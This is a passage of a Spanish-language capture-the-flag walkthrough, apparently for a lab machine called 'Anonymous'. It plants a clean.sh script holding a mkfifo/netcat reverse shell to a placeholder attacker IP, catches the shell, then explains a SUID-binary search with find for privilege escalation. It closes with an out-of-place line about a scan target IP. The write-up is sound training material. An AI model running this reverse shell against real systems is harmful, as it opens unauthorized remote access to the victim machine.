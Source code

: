Creamos un archivo `clean.sh`, en el que estará nuestra reverse shell. Podemos usar el siguiente comando:

```java
#!/bin/bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [Ip-Attacker] 777 >/tmp/f
```

Ahora nos ponemos a la escucha con `ncat` para pder recibir la shell

![20231017165325.png](20231017165325.png)

¡VAMOS! tenemos una shell de la maquina victima.

## Escalación de privilegios

### Usuario: namelessone

Ahora para escalar privilegios realizamos un `find / -type f -perm -04000 -ls 2>/dev/null` para realizar una busqueda de binarios que son `SUID` 

```java
namelessone@anonymous:~$ find / -type f -perm -04000 -ls 2>/dev/null
```

`find`: Este es el comando principal que se utiliza para buscar archivos y directorios en el sistema de archivos.

`/`: Es el directorio raíz desde el cual se iniciará la búsqueda. En este caso, la búsqueda se realizará en todo el sistema de archivos.

`-type f`: Este parámetro indica a find que solo busque archivos regulares (no directorios ni otros tipos de archivos).

`-perm -04000`: Aquí especificas el atributo de permisos que estás buscando. El número "04000" se refiere a archivos con el conjunto de bits SUID activado. Los archivos SUID suelen tener permisos numéricos que comienzan con "4". El 4 indica que el bit SUID está activado, y el 000 indica que no importa qué permisos tenga el grupo o otros usuarios.

`-ls`: Este parámetro le dice a find que liste los archivos que coinciden con los criterios en un formato similar al comando ls.

`2>/dev/null`: Esta parte del comando redirige los mensajes de error estándar (file descriptor 2) a /dev/null, lo que significa que los errores generados durante la búsqueda no se mostrarán en la salida estándar.


[IP]: Aquí deberías reemplazar "[IP]" con la dirección IP del host que deseas escanear. Es el objetivo del escaneo.